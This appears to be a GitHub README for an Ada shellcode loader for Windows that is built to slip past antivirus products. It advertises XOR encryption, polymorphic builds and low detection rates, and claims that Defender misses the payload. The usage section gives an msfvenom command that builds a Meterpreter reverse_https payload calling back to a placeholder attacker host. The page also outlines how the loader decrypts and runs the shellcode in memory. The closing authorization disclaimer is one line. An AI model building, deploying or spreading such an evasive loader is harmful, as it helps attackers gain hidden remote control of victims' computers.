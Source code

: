 # Ada Shellcode Loader

A simple shellcode loader written in Ada for Windows x64.

## Features

- XOR encryption with random key per build
- Polymorphic compilation - every build is unique
- Written in Ada (uncommon language, low detection rates)
- Compiles to native Windows executable
- No external dependencies

## Requirements

- GNAT Ada compiler
- MinGW-w64 for cross-compilation
- Python 3

## Installation

### Automated Installation
```bash
chmod +x install.sh
./install.sh
```

Supports:
- Debian/Ubuntu
- RedHat/CentOS/Fedora
- Arch Linux
- macOS

### Manual Installation

**Debian/Ubuntu:**
```bash
sudo apt update
sudo apt install gnat gnat-mingw-w64 python3
```

**Fedora:**
```bash
sudo dnf install gcc-gnat mingw64-gcc-gnat python3
```

**Arch:**
```bash
sudo pacman -S gcc-ada mingw-w64-gcc python
```

**macOS:**
```bash
brew install gcc mingw-w64
```

## Usage
```bash
# Generate shellcode (raw format, x64)
# Example: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f raw -o shellcode.bin

# Build
python3 build.py shellcode.bin

# Output: loader.exe
```

![Ada Shellcode Loader Demo](screenshot/loader-demo.png)

This shows defender cant detect the embedded shellcode. 

## Polymorphic Builds

Every compilation generates a completely unique binary:
- Randomized function and variable names (30+ identifiers)
- Random XOR encryption key
- Random timing delays
- Unique binary hash every time


## How It Works

1. `build.py` generates unique polymorphic code structure
2. Encrypts shellcode with a random XOR key
3. Compiles to Windows executable with randomized identifiers
4. At runtime, loader decrypts and executes shellcode in memory

## Technical Details

- **Encryption**: XOR with position-dependent key
- **Memory**: VirtualAlloc (RW) → VirtualProtect (RX)
- **Execution**: CreateThread
- **Language**: Ada 2012
- **Polymorphism**: 30+ randomized identifiers per build

## Notes

This is for authorized security testing only. Ensure you have proper authorization before use.
